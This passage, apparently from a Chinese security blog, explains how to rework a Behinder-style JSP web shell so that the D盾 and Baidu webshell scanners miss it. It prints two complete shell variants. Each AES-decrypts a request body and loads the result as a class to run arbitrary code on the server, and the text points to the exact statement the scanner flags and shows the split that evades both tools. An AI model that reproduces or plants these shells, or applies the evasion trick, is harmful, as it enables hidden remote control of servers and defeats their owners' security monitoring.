 就已经可以过D盾了

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429763-051410dc-8afa-4cf4-b495-61b24f377d0c.png)

经过测试随便拆其他的也可以，再拆一个uploadString

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}
public Class g(byte []b){return super.defineClass(b,0,b.length);}}%>
<%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);
out.print(k);return;}
Cipher c=Cipher.getInstance("AES");
c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));
 String uploadString= request.getReader().readLine();
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(uploadString))).newInstance().equals(pageContext);%>
```

也可以免杀

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429903-ea70127c-3c9f-4545-a98d-686dffe7ace6.png)

### 免杀百度scanner

拆最后一句免杀不了scanner

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900430015-44ed95d8-c898-4762-a78b-1260212b6be2.png)

经过测试scanner识别冰蝎的特征在这一句

```
c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));
```

那就再把这一句给拆了

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}
public Class g(byte []b){return super.defineClass(b,0,b.length);}}%>
<%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);
out.print(k);return;}
Cipher c=Cipher.getInstance("AES");
SecretKeySpec sec=new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES");
 c.init(2,sec);
 String uploadString= request.getReader().readLine();
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(uploadString))).newInstance().equals(pageContext);%>
```

这时候就可以两个都免杀了

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900430104-50007ff0-0da4-49c0-82a6-0f9084263a7d.png)
